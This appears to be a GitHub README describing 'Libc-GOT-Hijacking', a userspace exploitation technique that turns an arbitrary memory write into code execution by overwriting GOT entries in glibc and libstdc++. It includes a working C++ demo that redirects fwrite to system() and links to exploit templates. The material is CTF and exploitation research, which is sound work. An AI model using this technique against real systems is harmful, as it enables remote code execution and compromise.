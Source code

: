 # Libc-GOT-Hijacking 

Transform arbitrary write to RCE.

Libc makes it full RELRO at 2.39 so this skill doesn't work for glibc-2.39+.
However, it works for the libstdc++ on the latest Ubuntu LTS.


## Details

This is a userspace attacking skill: If you can write arbitrary memory space, you can use this method to execute arbitrary code. 

> You only need to know the base address of Glibc

# Update (Dec 17th., 2024)

While exploiting a CTF challenge, I found `libstdc++` is a juicy target of this technique. It's still usable on the latest LTS-ubuntu(24.04).

```sh
[14:26:12] n132 :: xps  ➜  ~/Downloads/FL_Support_Center » pwn checksec /lib/x86_64-linux-gnu/libstdc++.so.6
[*] '/lib/x86_64-linux-gnu/libstdc++.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

A simple way to get a shell is just to modify `fread/fwrite` got to `system` and `cin/cout` the string `/bin/sh`. But if ROP is what we want, we can do libc-got-hijacking (ROP over GOT) (even though it's unnecessary, it's a general solution!) 

Here is a demo:
```c
[18:34:04] n132 :: xps  ➜  ~/demo » cat ./rce.cpp && g++ ./rce.cpp -o ./rce && echo "id" | ./rce
#include <iostream>
int main(){
    // Hijack fwrite@got[plt] to system
    // cout gonna run arbitrary commands
    int num = 915;
    std::string str;
    size_t libc_base = (size_t)system-0x00058740;
    size_t * add_of_del_got = (size_t *)(libc_base + 0x277000 + 0x400000 + num*8);
    * add_of_del_got = (size_t )system;
    std::cin >> str;
    std::cout << str << std::endl;
}
uid=1000(n132) gid=1000(n132) groups=1000(n132),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),984(docker)
```

## glibc > 2.35 & glibc <=2.38

Compared to glibc<=2.35 there is mitigation implemented, which forbids the methods for the old library. However, we designed a method to bypass it and execute arbitrary code by 
once arbitrary write on Glibc's GOT table. This method performs Return Oriented Programming (ROP) attack on the Global Offset Table (GOT). 

![AttackFlow](./Img/AttackFlow.png)


You can find details, templates, demos, and everything you want in: [Details][0] and [Templates][3]


## glibc <= 2.35


I learned the original method from [Sammy Hajhamid][2] also the methods for glibc <=2.35 are inspired by his work.

Based on his work, We designed a method to execute arbitrary code by once arbitrary write on Glibc's GOT table. The method uses `PLT_0` to push `libc_exe_address` to the stack and then use `POP RSP, RET` to execute our `ROPchain`.

You can find details, templates, demos, and everything you want in: [Details][1] and [Templates][4]

# Acknowledgments

- Great job [@swing][5] on the impressive work with glibc >2.35!

- Appreciate the original work done by @pepsipu.

# Reference link
- [@pepsipu's Method][2]


[0]: ./Post/README.md
[1]: ./Pre/README.md
[2]: https://hackmd.io/@pepsipu/SyqPbk94a
[3]: ./Post/one_punch.py
[4]: ./Pre/templates.md
[5]: https://bestwing.me/
